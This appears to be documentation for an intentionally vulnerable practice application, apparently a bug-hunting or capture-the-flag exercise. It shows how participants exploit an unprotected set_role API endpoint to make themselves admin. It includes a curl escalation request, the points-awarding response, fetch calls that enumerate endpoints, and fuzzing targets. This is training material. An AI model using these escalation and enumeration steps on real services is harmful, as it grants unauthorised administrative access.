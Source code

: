 ### **Method 3: cURL Testing (Backend Only)**

**Step 1:** Get a valid JWT token by logging in through the frontend

**Step 2:** Test escalation
```bash
curl -X POST "http://localhost:8000/api/users/set_role/" \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_JWT_TOKEN_HERE" \
  -d '{"role": "admin"}'
```

**Expected Response:**
```json
{
  "bug_found": "PRIVILEGE_ESCALATION",
  "message": "🎉 Privilege Escalation detected!",
  "description": "Successfully escalated privileges to admin via unprotected API endpoint",
  "points": 120,
  "vulnerability_type": "Privilege Escalation",
  "severity": "Critical",
  "user_role": "admin",
  "is_staff": true,
  "is_superuser": true,
  "success": true
}
```

---

## 🕵️ **How Participants Would Discover This**

### **Realistic Discovery Methods**

#### **1. API Endpoint Enumeration**
```javascript
// Security researchers often test common admin endpoints
fetch('/api/users/set_role/', {headers: {Authorization: 'Bearer ' + token}})
fetch('/api/admin/users/', {headers: {Authorization: 'Bearer ' + token}}) 
fetch('/api/users/promote/', {headers: {Authorization: 'Bearer ' + token}})
```

#### **2. Burp Suite / Proxy Analysis**
- Intercept API calls to `/api/users/update/` (legitimate endpoint)
- Notice similar pattern and test `/api/users/set_role/`
- Try different parameter names: `role`, `admin`, `privilege`, `level`

#### **3. Source Code Analysis** 
- Examine frontend API calls
- Look for admin-related endpoints
- Check for inconsistent authorization patterns

#### **4. Fuzzing & Directory Brute Force**
```bash
# Common security testing tools would find:
/api/users/set_role/
/api/users/promote/  
/api/admin/set_user_role/
/api/v1/user/set_role/
```
